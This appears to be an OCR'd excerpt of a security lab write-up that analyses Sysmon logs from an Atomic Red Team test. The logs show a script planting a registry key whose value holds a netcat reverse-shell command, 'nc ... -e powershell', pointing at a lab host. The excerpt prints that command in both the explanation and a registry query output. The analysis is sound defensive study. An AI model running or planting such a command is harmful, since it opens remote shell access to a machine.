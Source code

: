 ```powershell
                    @"C:\Users\Administrator\AppData\Local\Temp\2\r1iwkn4s\r1iwkn4s.cmdline"
ParentProcessId   : 952
ParentCommandLine : "powershell.exe" & {C:\AtomicRedTeam\atomics\T0003\plant.ps1}

UtcTime           : 2025-08-26 09:14:55.945
Image             : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ProcessId         : 952
CommandLine       : "powershell.exe" & {C:\AtomicRedTeam\atomics\T0003\plant.ps1}
ParentProcessId   : 4604
ParentCommandLine : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoLogo

```

The **`reg.exe`** process is used to add a new registry key: **`HKLM\SOFTWARE\RevC2`** with a value named **`call_back`** containing the command **`nc 10.10.thm.jhn 4499 -e powershell`**.

Registry query: 

```powershell
PS C:\Users\Administrator> reg query "HKLM\SOFTWARE\RevC2"

HKEY_LOCAL_MACHINE\SOFTWARE\RevC2
    call_back    REG_SZ    nc 10.10.thm.jhn 4499 -e powershell

PS C:\Users\Administrator>
```


